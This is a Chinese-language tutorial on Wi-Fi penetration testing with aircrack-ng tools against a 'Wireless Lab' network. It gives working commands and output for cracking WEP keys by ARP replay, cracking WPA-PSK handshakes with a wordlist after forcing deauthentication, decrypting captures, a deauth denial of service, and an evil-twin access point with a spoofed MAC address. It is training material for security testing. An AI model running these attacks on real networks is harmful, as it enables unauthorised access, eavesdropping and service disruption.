

# Wireless Penetration

[TOC]

无线网卡配置命令

```bash
iwconfig # 检测无线网卡
ifconfig wlan0 up # 激活无线网卡
airmon-ng #检测可用无线网卡
#安装网卡驱动
sudo apt install realtek-rtl88xxau-dkms -y
```


## iwconfig


## Airmon-ng

### 描述

这个脚本用于开启无线网卡的监听模式. 也可以用于从监听模式回到托管模式, 输入不带参数的airmon-ng命令将显示接口状态

### 用法

 usage: `airmon-ng <start|stop> <interface> [channel] or airmon-ng <check|check kill>`

where:

-  `<start|stop>`  表示你想开启或关闭的网卡. (强制)
- `<interface>` 指定的网卡.(强制)
- `[channel]` 可选, 设置网卡的特定频道
- `<check|check kill>` "check" 将显示所有可能干扰airmon-ng套件的程序, 强烈建议在使用airmon-ng之前杀死这些程序. "check kill" 将检查并杀死可能干扰airmon-ng套件的进程

### 举例

*检查状态或列出无线网卡*

```bash
root@kali:~# airmon-ng 

PHY	Interface	Driver		Chipset

phy0	wlan0		88XXau		Realtek Semiconductor Corp. RTL8812AU 802.11a/b/g/n/ac 2T2R DB WLAN Adapter
```

**检查网卡进程**

```bash
root@kali:~# airmon-ng check

Found 3 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

   PID Name
   673 NetworkManager
  1077 dhclient
  1213 wpa_supplicant
```

**杀掉这些进程**

```bash
root@kali:~# airmon-ng check kill

Killing these processes:

   PID Name
  1213 wpa_supplicant
```

**开启监控模式**

```bash
root@kali:~# airmon-ng start wlan0

PHY	Interface	Driver		Chipset

phy0	wlan0		88XXau		Realtek Semiconductor Corp. RTL8812AU 802.11a/b/g/n/ac 2T2R DB WLAN Adapter
 (monitor mode enabled)
```

**关闭监控模式**

```bash
root@kali:~# airmon-ng stop wlan0

PHY	Interface	Driver		Chipset

phy0	wlan0		88XXau		Realtek Semiconductor Corp. RTL8812AU 802.11a/b/g/n/ac 2T2R DB WLAN Adapter
 (monitor mode disabled)
```

不要忘记重启网络管理器

```bash
service network-manager start
```


## Airodump-ng

### 描述

Airodump-ng用于原始802.11帧的数据包捕获，尤其适用于收集WEP IVs（ Initialization Vector 初始化矢量），以将其与aircrack-ng一起使用。如果您将GPS接收器连接到计算机，则airodump-ng可以记录找到的接入点的坐标。

此外，airodump-ng会写出几个文件，其中包含所有访问点和所见客户端的详细信息。


## 802.11



### Access Point(AP)

接入点，多指无线访问接入点，即通常所说的路由器。

### Station(STA)

站点，泛指无线接入设备，如笔记本电脑、平板电脑、手机等。

### Basic Service Set(BSS)

所有无线设备(STA)关联到一个访问点(AP)上，它们构成一个基础服务集合。在集合中，访问点控制和主导整个BSS中的全部数据的传输过程。

### Extended Service Set(ESS)

多个BSS通过各种手段互联形成的扩展网络，无线设备关联到一个或多个访问点上，它们构成一个扩展服务集合。在同一个ESS中的不同BSS之间切换的过程称为漫游。

### Service Set Identification(SSID)

BSS和ESS使用的标识符，路由器等AP一般都允许用户自由设置。

### 802.11 Frame

802.11标准将所有的帧(Frame，数据链路层的基本传输单元)分为3种:

1. Management Frame

   管理帧(wlan.fc.type == 0x00)

   用于STA与AP之间协商、关系的控制。

   - Beacon Frame

     信标帧(wlan.fc.type_subtype == 0x08)

     一个提供服务的AP会定时发送Beacon Frame以告知BSS的存在，并提供了BSS的一些基本信息，如BSSID、SSID、Channel等。

   - Probe Request / Probe Response

     探测请求(wlan.fc.type_subtype == 0x04)和探测响应(wlan.fc.type_subtype == 0x05)

     Probe request由STA发出，用于探测周围的BSS。如果指定了SSID，则只有SSID与之一致的BSS(准确来说是BSS内的AP)会通过Probe Response进行响应；如果未指定，则所有BSS都会进行响应。和Beacon Frame一样，Probe Response提供了BSS的基本信息。

   - Authentication

     认证(wlan.fc.type_subtype == 0x0B)

     Authentication中，包含认证类型(Authentication Algorithm)，认证进度(Authentication SEQ)，认证状态(Status Code)。AP可以根据相关信息决定接受还是拒绝某个STA的加入，并同样通过Authentication进行回复。

   - Deauthentication

     解除认证(wlan.fc.type_subtype == 0x0C)

     用来终结认证关系。

   - Association Request / Association Response

     关联请求(wlan.fc.type_subtype == 0x00) / 关联响应(wlan.fc.type_subtype == 0x01)

     一旦STA找到网络并通过认证，就会发送Association Request，请求 AP 进行关联。AP以Association Response进行回应。如果AP接受该请求，将为该STA分配资源。

   - Reassociation Request / Reassociation Response

     重关联请求(wlan.fc.type_subtype == 0x02) / 重关联响应(wlan.fc.type_subtype == 0x03)

     当STA远离原AP，并发现相同的ESS里有另一个信号更强的AP时，STA将发送Reassociation Request。AP以Reassociation Response进行回应。一旦AP接受该请求，将为该STA分配资源，由此AP提供服务。

   - Disassociation

     解除关联(wlan.fc.type_subtype == 0x0A)

     用来终结关联关系。收到Disassociation后，AP将释放先前为该STA分配的资源。

2. Control Frame

   控制帧(wlan.fc.type == 0x01)

   用于竞争期间的握手通信和正向确认等，为数据帧的发送提供辅助功能。

   - Power Save - Poll

     省电-轮询(wlan.fc.type_subtype == 0x0A)。休眠的AP定期发送。

   - Request To Send

     请求发送(wlan.fc.type_subtype == 0x0B)

     表明A要向B发送若干数据，申请预约。目的是为了避免同时有多人向B发送帧，导致冲突。

   - Clear To Send

     清除发送(wlan.fc.type_subtype == 0x0C)

     收到Request To Send后，如果B同意该预约，则通过Clear To Send宣告其他人在一定时间内暂停向自己发送数据，避免冲突。

   - ACK

     确认收到的数据帧(wlan.fc.type_subtype == 0x0D)

     如果收到的数据帧校验出错，则不发送ACK，等待重传。

   - CF-End

     无竞争周期结束(wlan.fc.type_subtype == 0x0E)

     让STA脱离PCF模式，开始以DCF(基于竞争)模式。

   - CF-End + CF-ACK

     无竞争周期结束+确认(wlan.fc.type_subtype == 0x0F)

3. Data Frame

   数据帧(wlan.fc.type == 0x02)

   用于在竞争期(Contention Period)和非竞争期(Contention-free Period)传输数据。

   - Data

     基本数据帧(wlan.fc.type_subtype == 0x00)

     包含了通信的实际数据。

   - Null

     没有数据的空帧(wlan.fc.type_subtype == 0x04)

     但可以有其它的标记信息。

   - CF-ACK

     无竞争周期的确认(wlan.fc.type_subtype == 0x05)

     用于确认之前所收到的帧。

   - CF-Poll

     无竞争周期的轮询(wlan.fc.type_subtype == 0x06)

     用于通知已经没有数据要传输。

   - Qos Data

     Data帧的 Qos 版本(wlan.fc.type_subtype == 0x08)

   - Qos Null

     Null帧的 Qos 版本(wlan.fc.type_subtype == 0x0C)

   此外还有各种帧的组合，如Data + CF-ACK，Data + CF-Poll、Qos Data + CF-ACK等，不再细述。


## 破解WLAN

### WEP(Wired Equivalent Privacy 有线等效保密)

```bash
root@kali:~# ifconfig wlan0 up
#开启监听模式
root@kali:~# airmon-ng start wlan0

PHY	Interface	Driver		Chipset

phy3	wlan0		88XXau		Realtek Semiconductor Corp. RTL8812AU 802.11a/b/g/n/ac 2T2R DB WLAN Adapter
 (monitor mode enabled)
#定位AP
root@kali:~# airodump-ng wlan0
 CH 11 ][ Elapsed: 48 s ][ 2019-11-23 20:31                                         
                                                                                         
 BSSID             PWR  Beacons #Data, #/s  CH  MB   ENC CIPHER AUTH ESSID
                                                                                         
 E4:D3:32:44:61:BE -59  125      467    2    6  54e. WEP WEP          Wireless Lab                                                                                             
 BSSID              STATION            PWR   Rate     Lost    Frames  Probe                                                                                            
 E4:D3:32:44:61:BE  14:9D:09:A8:4B:FE  -45   24e- 2e   704     1423  Wireless Lab
```

这里选择实验无线网络Wireless Lab, 优化上面命令使用下面命令关注该无线数据包, `--bssid` 目标路由器mac地址, `--channel`和AP同一个通道, `-w`将抓到的包存入一个输出文本, 文本文件前缀, `wlan0`网卡. 只要无线客户端链接AP,输出如下所示:

```bash
root@kali:~# airodump-ng --bssid E4:D3:32:44:61:BE --channel 6 -w wireless wlan0

 CH  6 ][ Elapsed: 6 s ][ 2019-11-23 20:42                                         
                                                                                         
 BSSID              PWR RXQ  Beacons #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                         
 E4:D3:32:44:61:BE  -22  10     77    1550  191   6  54e. WEP  WEP         Wireless Lab
                                                                                         
 BSSID              STATION            PWR    Rate     Lost    Frames  Probe                                     
 E4:D3:32:44:61:BE  14:9D:09:A8:4B:FE  -100   54e-24   3941     1732
```

不过现在Data数据包很少, 破解WEP需要大量以相同秘钥加密的数据包, 所以使用`aireplay-ng`工具先抓取无线网络中的ARP包, 再将其灌回网络来模拟ARP响应.另开一个终端启动`aireplay-ng`

`-3`将ARP数据包重新释放回网络 `-b`指明目标无线网络的BSSID, `-h`为发动攻击的无线客户端指定一个冒充的MAC地址

```bash
root@kali:~# aireplay-ng -3 -b E4:D3:32:44:61:BE -h 14:9D:09:A8:4B:FE wlan0
The interface MAC (1C:BF:CE:54:E2:F7) doesn't match the specified MAC (-h).
	ifconfig wlan0 hw ether 14:9D:09:A8:4B:FE
20:58:02  Waiting for beacon frame (BSSID: E4:D3:32:44:61:BE) on channel 6
Saving ARP requests in replay_arp-1123-205802.cap
You should also start airodump-ng to capture replies.
Read 897 packets (got 1 ARP requests and 0 ACKs), sent 551 packets...(499 pps)
```

与此同时`airodump-ng`回收到大量的数据包, 文件都存放在以wireless开头的文件中

```bash
root@kali:~# ls
Desktop                     wireless-01.csv            wireless-04.csv
Document                    wireless-01.kismet.csv     wireless-04.kismet.csv
Download                    wireless-01.kismet.netxml  wireless-04.kismet.netxml
Music                       wireless-01.log.csv        wireless-04.log.csv
Picture                     wireless-02.cap            wireless-05.cap
Public                      wireless-02.csv            wireless-05.csv
replay_arp-1123-173943.cap  wireless-02.kismet.csv     wireless-05.kismet.csv
replay_arp-1123-174537.cap  wireless-02.kismet.netxml  wireless-05.kismet.netxml
replay_arp-1123-205436.cap  wireless-02.log.csv        wireless-05.log.csv
replay_arp-1123-205644.cap  wireless-03.cap            wireless-06.cap
replay_arp-1123-205719.cap  wireless-03.csv            wireless-06.csv
replay_arp-1123-205802.cap  wireless-03.kismet.csv     wireless-06.kismet.csv
Template                    wireless-03.kismet.netxml  wireless-06.kismet.netxml
Video                       wireless-03.log.csv        wireless-06.log.csv
wireless-01.cap             wireless-04.cap
```

现在使用`aircreak-ng`破解密钥

```bash
root@kali:~# aircrack-ng wireless-*.cap


                                          Aircrack-ng 1.5.2 


                             [00:00:02] Tested 51953 keys (got 94379 IVs)

   KB    depth   byte(vote)
    0    0/  1   AB(129536) A6(110848) 17(107264) 91(107008) 1E(105472) ED(105472) B5(105216) 
    1    0/  1   CD(143872) E8(108544) 17(107008) 8C(106240) 9C(105472) 21(104448) 83(104192) 
    2    0/  1   EF(124928) B8(110848) F4(107008) A7(105472) 07(105216) 9C(103936) 3B(103680) 
    3    0/  1   AB(124928) 7E(109056) E7(107520) D0(107264) FC(105984) B2(105472) 57(105216) 
    4    0/  1   CF(123904) 2E(108288) BE(106752) E5(106240) 0E(104704) 98(104704) 9F(104448) 
    5    0/  1   DE(120064) B4(106752) F3(104704) CE(104448) 32(103680) B9(103680) 11(103424) 
    6    0/  1   D1(132096) CC(108544) 59(108032) C3(107008) DE(106496) D8(105984) 09(105728) 
    7    0/  1   2A(125184) 05(111104) AB(109824) 8A(105984) B5(105984) AD(105728) 97(105216) 
    8    0/  1   CD(121856) 26(108032) 5A(107008) CA(106240) 2C(105216) FE(105216) 18(104192) 
    9    0/  1   FD(122880) 5E(105472) E9(104960) A3(104704) E4(103936) 20(103168) 24(103168) 
   10    1/  1   81(106752) 40(105216) 80(104192) F7(103936) C8(103680) 1A(103424) 0E(103168) 
   11    2/  1   65(105216) 46(104448) 7D(103680) 81(103680) 33(103424) B1(103168) DE(103168) 
   12    0/  1   CA(110344) 17(106452) 14(105968) 22(105148) F0(104824) A8(104500) 0F(104116) 

             KEY FOUND! [ AB:CD:EF:AB:CF:DE:D1:2A:CD:FD:CA:EF:CA ] 
	Decrypted correctly: 100%
```

破解成功, 总结`airodump-ng` 采集WEP数据包, `aireplay-ng` 执行重放攻击 `aircrack-ng`破解WEP密钥

### WPA-PSK弱密码

```bash
root@kali:~# ifconfig wlan0 up
#开启监听模式
root@kali:~# airmon-ng start wlan0

PHY	Interface	Driver		Chipset

phy3	wlan0		88XXau		Realtek Semiconductor Corp. RTL8812AU 802.11a/b/g/n/ac 2T2R DB WLAN Adapter
 (monitor mode enabled)
#定位AP
root@kali:~# airodump-ng wlan0
 CH  8 ][ Elapsed: 18 s ][ 2019-11-23 22:04                                         

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
               
 E4:D3:32:44:61:BE  -69       42       38    0   1  405  WPA  CCMP   PSK  <length:  0>                                      
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                               
 E4:D3:32:44:61:BE  14:9D:09:A8:4B:FE  -87    0e- 0e    46       76  Wireless Lab         
```

找到需要破解的WIFI Wireless Lab, 优化`airodump-ng`命令

```bash
root@kali:~# airodump-ng --bssid E4:D3:32:44:61:BE -c 1 -w wpa_crack wlan0

 CH  1 ][ Elapsed: 18 s ][ 2019-11-23 22:05                                         

 BSSID              PWR RXQ  Beacons  #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 E4:D3:32:44:61:BE  -65 100      215      1    0   1  405  WPA  CCMP   PSK  <length:  0>              
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                              
 E4:D3:32:44:61:BE  14:9D:09:A8:4B:FE  -86    0 -24      0        1 
```

等候一个全新的无线客户端链接AP, 做好捕获4次WPA握手生成的流量, 也可以通过广播的形式发出解除验证数据包, 迫使合法的客户端断线重连, 再捕获四次WPA握手产生的流量. 这里为了成功率`--deauth 10`

```bash
root@kali:~# aireplay-ng --deauth 10 -a E4:D3:32:44:61:BE wlan0
22:50:49  Waiting for beacon frame (BSSID: E4:D3:32:44:61:BE) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
22:50:49  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:50  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:50  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:51  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:51  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:52  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:53  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:53  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:54  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:54  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
```

运行此命令的时候注意观察`airodump-ng` 终端,  在终端右上角出现`WPA handshake xxxx` 则说明捕捉到WPA4次握手对应的流量. 同时暂停`airodump-ng`终端

```bash
 CH  1 ][ Elapsed: 3 mins ][ 2019-11-23 22:51 ][ WPA handshake: E4:D3:32:44:61:BE

 BSSID              PWR RXQ  Beacons  #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 E4:D3:32:44:61:BE  -61   2     2290   1679   34   1  405  WPA  CCMP   PSK  Wireless Lab              
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                              
 E4:D3:32:44:61:BE  14:9D:09:A8:4B:FE  -37    0e-24e   225     2389
```

现在开始密码破解

```bash
root@kali:~# aircrack-ng wpa_crack-01.cap -w /usr/share/wordlists/rockyou.txt
Opening wpa_crack-01.capwait...
Read 7865 packets.

   #  BSSID              ESSID                     Encryption

   1  E4:D3:32:44:61:BE  Wireless Lab              WPA (1 handshake)

Choosing first network as target.

Opening wpa_crack-01.capwait...
Read 7865 packets.

1 potential targets

                              Aircrack-ng 1.5.2 

      [00:00:16] 111564/9822768 keys tested (6562.02 k/s) 

      Time left: 24 minutes, 39 seconds                          1.14%

                           KEY FOUND! [ QWER1234 ]


      Master Key     : EC C0 32 D0 C7 41 7E 99 7D 46 27 30 6A 52 0B C0 
                       EB DC BC D3 D8 F5 36 61 7F 2B 39 47 2E 50 E9 0C 

      Transient Key  : A4 C1 4A 9C 3F EE E0 FB DB 25 19 AF 38 54 A7 41 
                       D6 23 29 E2 F4 64 8B 55 0B 12 17 24 5C C6 55 E5 
                       8B 82 3D 0B C2 EF 32 18 7E 16 DF 85 C4 C7 3B 1F 
                       C5 8C 26 49 52 60 A9 44 8A 5A 12 A5 A5 84 17 5A 

      EAPOL HMAC     : 23 85 30 77 8F 3E 97 95 F9 C7 A1 92 F3 60 69 09
```

密码是`QWER1234`

或者使用`cowpatty`工具计算

```bash
root@kali:~# cowpatty -r wpa_crack-01.cap -f /usr/share/wordlists/rockyou.txt -s "Wireless Lab"
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Collected all necessary data to mount crack against WPA2/PSK passphrase.
Starting dictionary attack.  Please be patient.
key no. 1000: skittles1
......
The PSK is "QWER1234".
53854 passphrases tested in 51.06 seconds:  1054.73 passphrases/second
```

### 解密WEP WPA数据包

使用`airdecap-ng`工具进行解密

```bash
root@kali:~# airdecap-ng -w ABCDEFABCFDED12ACDFDCAEFCA wep_crack-01.cap
Total number of stations seen            5
Total number of packets read        278054
Total number of WEP data packets    155359
Total number of WPA data packets         0
Number of plaintext data packets         0
Number of decrypted WEP  packets    155359
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets         0
Number of bad TKIP (WPA) packets         0
Number of bad CCMP (WPA) packets         0

root@kali:~# airdecap-ng -p qwer1234 wpa_crack-01.cap -e "No Password" 
Total number of stations seen            5
Total number of packets read         20139
Total number of WEP data packets         0
Total number of WPA data packets      6512
Number of plaintext data packets         0
Number of decrypted WEP  packets         0
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets      1954
Number of bad TKIP (WPA) packets         0
Number of bad CCMP (WPA) packets         0
```

## 连接进入网络

WEP网络

```bash
root@kali:~# iwconfig wlan0 essid "Wireless Lab" key ABCDEFABCFDED12ACDFDCAEFCA
root@kali:~# iwconfig     

eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11bg  ESSID:"Wireless Lab"  Nickname:"<WIFI@REALTEK>"
          Mode:Managed  Frequency:2.437 GHz  Access Point: E4:D3:32:44:61:BE   
          Bit Rate:54 Mb/s   Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:ABCD-EFAB-CFDE-D12A-CDFD-CAEF-CA   Security mode:open
          Power Management:off
          Link Quality=37/100  Signal level=-64 dBm  Noise level=0 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

WPA网络


## 攻击WLAN基础设施

### 解除验证Dos攻击

这里使用前面用过的`aireplay-ng`工具

```bash
  root@kali:~# aireplay-ng --help                                

  Aireplay-ng 1.5.2  - (C) 2006-2018 Thomas d'Otreppe
  https://www.aircrack-ng.org

  usage: aireplay-ng <options> <replay interface>

  Filter options:	过滤选项

      -b bssid  : MAC address, Access Point			接入点的MAC地址
      -d dmac   : MAC address, Destination			目的MAC地址
      -s smac   : MAC address, Source				源MAC地址
      -m len    : minimum packet length				数据包最小长度
      -n len    : maximum packet length				数据包最大长度
      -u type   : frame control, type    field		含有关键词的控制帧
      -v subt   : frame control, subtype field		含有表单数据的控制帧
      -t tods   : frame control, To      DS bit		到目的地址的控制帧
      -f fromds : frame control, From    DS bit		从目的地址出发的控制帧
      -w iswep  : frame control, WEP     bit		含有WEP数据的控制帧
      -D        : disable AP detection

  Replay options:	重放选项

      -x nbpps  : number of packets per second		设置每秒发送数据包的数目
      -p fctrl  : set frame control word (hex)		设置控制帧中包含的信息（16进制）
      -a bssid  : set Access Point MAC address		设置接入点的MAC地址
      -c dmac   : set Destination  MAC address		设置目的MAC地址
      -h smac   : set Source       MAC address		设置源MAC地址
      -g value  : change ring buffer size (default: 8)	修改缓冲区的大小（默认值：8）
      -F        : choose first matching packet		选择第一次匹配的数据包

      Fakeauth attack options:

      -e essid  : set target AP SSID				虚假认证攻击中，设置接入点名称
      -o npckts : number of packets per burst (0=auto, default: 1)	每次攻击含数据包的数量
      -q sec    : seconds between keep-alives		设置持续活动时间
      -Q        : send reassociation requests
      -y prga   : keystream for shared key auth		包含共享秘钥的关键数据流
      -T n      : exit after retry fake auth request n time

      Arp Replay attack options:

      -j        : inject FromDS packets				ARP请求攻击，向目标注入数据包

      Fragmentation attack options:

      -k IP     : set destination IP in fragments	设置目标IP加入注入文件
      -l IP     : set source IP in fragments		设置目标源IP加入注入文件

      Test attack options:

      -B        : activates the bitrate test

  Source options: 来源选项

      -i iface  : capture packets from this interface	从指定网卡捕获数据包
      -r file   : extract packets from this pcap file	从指定pcap文件获取数据包

  Miscellaneous options:

      -R                    : disable /dev/rtc usage
      --ignore-negative-one : if the interface's channel can't be determined,
                              ignore the mismatch, needed for unpatched cfg80211
      --deauth-rc rc        : Deauthentication reason code [0-254] (Default: 7)

  Attack modes (numbers can still be used):

      --deauth      count : deauthenticate 1 or all stations (-0) 	解除认证攻击
      --fakeauth    delay : fake authentication with AP (-1)		伪造认证攻击
      --interactive       : interactive frame selection (-2)		交互式注入攻击
      --arpreplay         : standard ARP-request replay (-3)		ARP请求包重放攻击
      --chopchop          : decrypt/chopchop WEP packet (-4)		chopchop Korek攻击
      --fragment          : generates valid keystream   (-5)		碎片交错攻击
      --caffe-latte       : query a client for new IVs  (-6)		Cafe-latte 攻击
      --cfrag             : fragments against a client  (-7)		面向客户的碎片攻击
      --migmode           : attacks WPA migration mode  (-8)		WPA迁移模式
      --test              : tests injection and quality (-9)		数据包注入测试 
      
root@kali:~# aireplay-ng -0 5 -a 9C:A6:15:1E:1B:EE -c 14:9D:09:A8:4B:FE wlan0
```

### Evil Twin和AP MAC地址欺骗

先用选择一个被攻击的ap, 记录他的essid比如 `Wireless Lab`

```bash
root@kali:~# airbase-ng --essid "Wireless Lab" -c 6 wlan0 
16:54:18  Created tap interface at0
16:54:18  Trying to set MTU on at0 to 1500
16:54:18  Access Point with BSSID 1C:BF:CE:54:E2:F7 started.
```

打开`airodump-ng` 

```bash
root@kali:~# airodump-ng -c 6 wlan0
 CH  6 ][ Elapsed: 6 s ][ 2019-11-24 16:56                                         

 BSSID              PWR RXQ  Beacons  #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 1C:BF:CE:54:E2:F7    0 100      102      0    0   6  54   OPN              Wireless Lab
 E4:D3:32:44:61:BE  -56 100       99      0    0   6  405  WPA2 CCMP   PSK  Wireless Lab
 50:D2:F5:23:14:1C  -63  96       94      0    0   7  130  WPA2 CCMP   PSK  Xiaomi_DDD                                                                                            
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
```

使用`-a`参数 让他们虚假难分

```bash
root@kali:~# airbase-ng -a E4:D3:32:44:61:BE --essid "Wireless Lab" -c 6 wlan0
17:00:12  Created tap interface at0
17:00:12  Trying to set MTU on at0 to 1500
17:00:12  Access Point with BSSID E4:D3:32:44:61:BE started.
```

此时已近看不到两个AP

```bash
root@kali:~# airodump-ng -c 6 wlan0

 CH  6 ][ Elapsed: 36 s ][ 2019-11-24 17:02                                         

 BSSID              PWR RXQ  Beacons  #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 E4:D3:32:44:61:BE  -55   2      752      0    0   6  405  WPA2 CCMP   PSK  Wireless Lab 
 50:D2:F5:23:14:1C  -58 100      392    259    0   7  130  WPA2 CCMP   PSK  Xiaomi_DDD
 
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                              
 50:D2:F5:23:14:1C  C0:EE:FB:06:C1:AF  -73    1e- 1e     0        7
```

